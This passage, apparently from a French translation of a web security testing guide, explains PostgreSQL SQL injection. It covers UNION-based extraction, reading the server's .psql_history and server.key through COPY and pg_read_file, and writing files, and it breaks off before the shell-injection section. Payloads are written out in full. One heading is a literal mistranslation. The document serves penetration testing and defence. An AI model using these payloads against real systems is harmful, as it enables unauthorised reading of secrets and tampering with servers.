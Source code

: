 ##### exemple

`http://www.exemple.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Lecture d'un fichier

PostgreSQL fournit deux façons d'accéder à un fichier local :

- Instruction `COPY`
- Fonction interne `pg_read_file()` (à partir de PostgreSQL 8.1)

##### COPIE

Cet opérateur copie des données entre un fichier et une table. Le moteur PostgreSQL accède au système de fichiers local en tant qu'utilisateur `postgres`.

###### exemple

```text
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Les données doivent être récupérées en effectuant une "injection SQL de requête UNION" :

- récupère le nombre de lignes précédemment ajoutées dans `file_store` avec l'instruction `COPY`
- récupère une ligne à la fois avec UNION SQL Injection

```text
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

Cette fonction a été introduite dans `PostgreSQL 8.1` et permet de lire des fichiers arbitraires situés dans le répertoire de données du SGBD.

###### exemple

`SELECT pg_read_file('server.key',0,1000);`

#### Écrire dans un fichier

En inversant l'instruction COPY, nous pouvons écrire dans le système de fichiers local avec les droits d'utilisateur `postgres`

`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Injection de coque

PostgreSQL fournit un mécanisme pour ajouter des fonctions personnalisées en utilisant à la fois la bibliothèque dynamique et des langages de script tels que python, perl et tcl.

##### Bibliothèque dynamique
